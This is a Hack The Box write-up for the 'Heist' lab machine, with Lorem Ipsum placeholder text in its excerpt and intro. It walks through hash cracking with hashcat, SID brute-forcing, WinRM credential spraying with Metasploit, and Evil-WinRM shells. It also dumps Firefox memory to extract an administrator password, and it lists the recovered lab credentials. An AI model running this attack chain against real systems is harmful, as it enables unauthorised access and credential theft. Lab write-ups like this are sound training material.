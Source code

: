 ```yaml
---
layout: single
title: Heist - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-09-26
classes: wide
header:
  teaser: /assets/images/htb-writeup-heist/heist_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-heist/heist_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

NOTE: Working credentials found during enumeration
  rout3r / $uperP@ssword
  admin / Q4)sJu\Y8qz*A3?d
  hazard / stealth1agent
  Chase / Q4)sJu\Y8qz*A3?d
  Administrator / 4dD!5}x/re8]FBuZ

1. nmap -Pn -p- -O 10.10.10.149
    80/tcp    open  http
    135/tcp   open  msrpc
    445/tcp   open  microsoft-ds
    5985/tcp  open  wsman
    49669/tcp open  unknown
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

2. Enum port 80, login as Guest User and you'll see user Hazard post an attached file containing 2 usernames and 3 password.
    enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
    username rout3r password 7 0242114B0E143F015F5D1E161713
    username admin privilege 15 password 7 02375012182C1A1D751618034F36415408

3. Crack all (3) the hashes.
    Password 7 types can easily be cracked using:
    http://www.ifm.net.nz/cookbooks/passwordcracker.html
    Which gives us following two creds
      rout3r / $uperP@ssword      (0242114B0E143F015F5D1E161713)
      admin / Q4)sJu\Y8qz*A3?d    (02375012182C1A1D751618034F36415408)

    Password 5 is a md5crypt and can be cracked using hashcat and rockyou.txt.
    To find the correct Hash Mode (-m 500) see https://hashcat.net/wiki/doku.php?id=example_hashes
      root@p3:/opt/htb/machines/heist# echo "$1$pdQG$o8nrSzsGXeaduXrjlvKc91" > cisco-hash.txt
      root@p3:/opt/htb/machines/heist# hashcat -a 0 -m 500 cisco-hash.txt /usr/share/wordlists/rockyou.txt -o cisco-cracked.txt --force
      root@p3:/opt/htb/machines/heist# cat cisco-cracked.txt
        $1$pdQG$o8nrSzsGXeaduXrjlvKc91:stealth1agent

    Possible Usernames:
      root@p3:/opt/htb/machines/heist# cat heist-users.txt
        admin
        rout3r
        hazard

    Possible Passwords:
      root@p3:/opt/htb/machines/heist# cat heist-pws.txt
        $uperP@ssword
        Q4)sJu\Y8qz*A3?d
        stealth1agent


4. Enumerate / Brute Windows SID through MSRPC with lookupsid.py from Impacket, using found credentials.
    root@p3:/opt/impacket/examples# ./lookupsid.py hazard:stealth1agent@10.10.10.149
      Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

      [*] Brute forcing SIDs at 10.10.10.149
      [*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
      [*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
      500: SUPPORTDESK\Administrator (SidTypeUser)
      501: SUPPORTDESK\Guest (SidTypeUser)
      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
      513: SUPPORTDESK\None (SidTypeGroup)
      1008: SUPPORTDESK\Hazard (SidTypeUser)
      1009: SUPPORTDESK\support (SidTypeUser)
      1012: SUPPORTDESK\Chase (SidTypeUser)
      1013: SUPPORTDESK\Jason (SidTypeUser)

5. Extend user-list with all new users, and run user/pass through msf auxiliary(scanner/winrm/winrm_login)
    root@p3:/opt/htb/machines/heist# cat heist-users.txt
      admin
      rout3r
      hazard
      Administrator
      Guest
      DefaultAccount
      WDAGUtilityAccount
      support
      Chase
      Jason

    msf5 auxiliary(scanner/winrm/winrm_login) > run
      [+] 10.10.10.149:5985 - Login Successful: WORKSTATION\Chase:Q4)sJu\Y8qz*A3?d

6. Download Winrm Shell or Evil-Winrm and login with user Chase
    https://github.com/Hackplayers/evil-winrm     (More manageable user interface; easy upload and download of files)
    https://alionder.net/winrm-shell/             (Lightweight shell script, would not use for root)

    root@p3:/opt/shells# ruby winrm_shell.rb
    PS > whoami
      supportdesk\chase
    PS > pwd

      Path
      ----
      C:\Users\Chase\Documents


    PS > cd ../Desktop
    PS > type user.txt
      a12*****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Enumerate and find an odd running process.
    root@p3:/opt/evil-winrm# ruby evil-winrm.rb -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d' -s '/opt/PowerSploit/Exfiltration/'
    *Evil-WinRM* PS C:\Users\Chase\Documents> Get-Process | where {$_.ProcessName -notlike "svchost*"} | ft ProcessName, Id

      ProcessName           Id
      -----------           --
      ..
      explorer            5620
      firefox              704
      firefox             1296
      firefox             3056
      firefox             3504
      firefox             3832
      fontdrvhost          800
      ..

2. Firefox is an odd service to be running on a HTB box, dump the process memory and see if we can grab anything useful.

    Process dump via ProcDump.exe:
    (https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
    New-Item -Path "C:\Users\Chase\Documents" -Type directory -Force
    cmd.exe /c "C:\Users\Chase\Documents\procdump.exe" -ma 704 -accepteula "C:\Users\Chase\Documents"

    Process dump via PowerSploit tool Out-Minidump:
    (https://github.com/PowerShellMafia/PowerSploit)

    *Evil-WinRM* PS C:\Users\Chase\Documents> upload ../PowerSploit/Exfiltration/Out-Minidump.ps1 C:\Users\Chase\Documents
    *Evil-WinRM* PS C:\Users\Chase\Documents> Import-Module C:\Users\Chase\Documents\Out-Minidump.ps1
    *Evil-WinRM* PS C:\Users\Chase\Documents> Get-Process firefox | Out-Minidump
      Directory: C:\Users\Chase\Documents

      Mode                LastWriteTime         Length Name
      ----                -------------         ------ ----
      -a----        10/2/2019   1:29 PM      524489927 firefox_704.dmp
      -a----        10/2/2019   1:29 PM      273600541 firefox_1296.dmp
      -a----        10/2/2019   1:29 PM      302068992 firefox_3056.dmp
      -a----        10/2/2019   1:29 PM      286191273 firefox_3504.dmp
      -a----        10/2/2019   1:29 PM      385076763 firefox_3832.dmp

3. Search the .dmp-file for credentials.
    Remotely on victim machine:
    *Evil-WinRM* PS C:\Users\Chase\Documents> Select-String -Path firefox_1296.dmp -Pattern login_password
      localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login

    Locally on attacking machine:
    *Evil-WinRM* PS C:\Users\Chase\Documents> download firefox_1296.dmp
      Info: Downloading firefox_1296.dmp to firefox_1296.dmp
      Info: Download successful!
    root@p3:/opt/evil-winrm# strings firefox_1296.dmp | grep login_password
      MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=

4. Enter the newfound password in your password list and enumerate wimrm using mfs module auxiliary/scanner/winrm/winrm_login
    msf5 auxiliary(scanner/winrm/winrm_login) > run
      [+] 10.10.10.149:5985 - Login Successful: WORKSTATION\Administrator:4dD!5}x/re8]FBuZ
      [+] 10.10.10.149:5985 - Login Successful: WORKSTATION\Chase:Q4)sJu\Y8qz*A3?d

5. Login with new Administrator creds and get root.txt
    root@p3:/opt/evil-winrm# ruby evil-winrm.rb -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'

      Info: Starting Evil-WinRM shell v1.7
      Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
      supportdesk\administrator
    *Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
      50d****************************
